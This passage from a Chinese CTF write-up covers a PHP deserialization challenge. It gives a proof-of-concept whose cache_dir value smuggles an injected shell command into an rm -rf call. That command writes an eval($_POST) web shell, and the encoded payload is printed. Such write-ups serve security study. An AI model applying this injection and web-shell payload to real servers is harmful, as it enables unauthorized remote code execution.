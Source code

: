 还是传到cookie里，然后访问一下index.php就可以把马写入了

![](https://i.loli.net/2021/10/06/R9jLMI34XQyoP6s.png)

flag在flag.php里



## 307 反序列化传马

> 是不是顺眼多了

把文件分类放好了，seay一扫发现两个：![](https://i.loli.net/2021/10/06/YvhdcNmqJ9QCf7T.png)
找到shell_exec在dao.php里

```php
	public function  clearCache(){
		shell_exec('rm -rf ./'.$this->config->cache_dir.'/*');
	}
```

再找调用它的地方

![](https://i.loli.net/2021/10/06/U6zXYIWpMs8R7hb.png)

看了一下，决定在logout.php操作

```php
$service = unserialize(base64_decode($_COOKIE['service']));
if($service){
	$service->clearCache();
}
```

poc：

```php
<?php

class config{
    public $cache_dir = ';echo  "<?php eval(\$_POST[1]);?>" > a.php;';
}

class dao{
    private $config;
        public function __construct(){
        $this->config=new config();
    }
}


$a = new dao();
echo base64_encode(serialize($a));

# TzozOiJkYW8iOjE6e3M6MTE6IgBkYW8AY29uZmlnIjtPOjY6ImNvbmZpZyI6MTp7czo5OiJjYWNoZV9kaXIiO3M6NDM6IjtlY2hvICAiPD9waHAgZXZhbChcJF9QT1NUWzFdKTs/PiIgPiBhLnBocDsiO319
```
